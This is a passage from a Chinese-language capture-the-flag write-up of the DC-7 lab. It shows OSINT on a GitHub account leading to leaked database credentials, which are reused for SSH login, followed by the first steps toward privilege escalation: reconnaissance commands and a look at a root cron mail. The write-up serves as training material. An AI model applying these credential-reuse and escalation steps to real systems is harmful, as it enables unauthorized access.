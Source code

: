 5. 想起作者说的话，虽然它是`早期 DC 版本`（我不会告诉你哪一个）的一种逻辑进展，但其中涉及一些新概念，但你需要自己弄清楚。:-) 如果你需要诉诸暴力破解或字典攻击，你可能不会成功
    
    （而后我们尝试了暴力破解..）
    
    早期DC版本，`DC-1`也是`Drupal`但是版本都不一样，漏洞估计也被修复了
    
    没想法
    
6. 看了下dalao们的WP，发现转折点在，页面底下的**`@DC7USER`** ，我们在GitHub搜索能搜索到
    
    [https://github.com/Dc7User/staffdb](https://github.com/Dc7User/staffdb)
    
    是DC7的一些代码，下面还说
    
    ```python
    This is some "code" (yes, it's not the greatest code, but that wasn't the point) for the DC-7 challenge.
    
    This isn't a flag, btw, but if you have made it here, well done anyway. :-)
    ```
    
    不按套路出牌属实是。。。我们查看下数据库配置文件`config.php` ，获得数据库账号密码
    
    ```python
    <?php
    	$servername = "localhost";
    	$username = "dc7user";
    	$password = "MdR3xOgB7#dW";
    	$dbname = "Staff";
    	$conn = mysqli_connect($servername, $username, $password, $dbname);
    ?>
    ```
    
    尝试后发现`ssh`可以登陆上去
    

## 提权

1. 查看权限
    
    ```python
    dc7user@dc-7:~$ whoami
    dc7user
    dc7user@dc-7:~$ id
    uid=1000(dc7user) gid=1000(dc7user) groups=1000(dc7user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
    dc7user@dc-7:~$ uname -a
    Linux dc-7 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u5 (2019-08-11) x86_64 GNU/Linux
    ```
    
2. 查找敏感文件
    - 在当前`home`目录下存在`mbox`文件，内容好像还是定期备份之类的
        
        ```python
        From root@dc-7 Fri Aug 30 03:15:17 2019
        Return-path: <root@dc-7>
        Envelope-to: root@dc-7
        Delivery-date: Fri, 30 Aug 2019 03:15:17 +1000
        Received: from root by dc-7 with local (Exim 4.89)
         (envelope-from <root@dc-7>)
         id 1i3O0y-0000Ed-To
         for root@dc-7; Fri, 30 Aug 2019 03:15:17 +1000
        From: root@dc-7 (Cron Daemon)
        To: root@dc-7
        Subject: Cron <root@dc-7> /opt/scripts/backups.sh
        MIME-Version: 1.0
        Content-Type: text/plain; charset=UTF-8
        Content-Transfer-Encoding: 8bit
        X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
        X-Cron-Env: <SHELL=/bin/sh>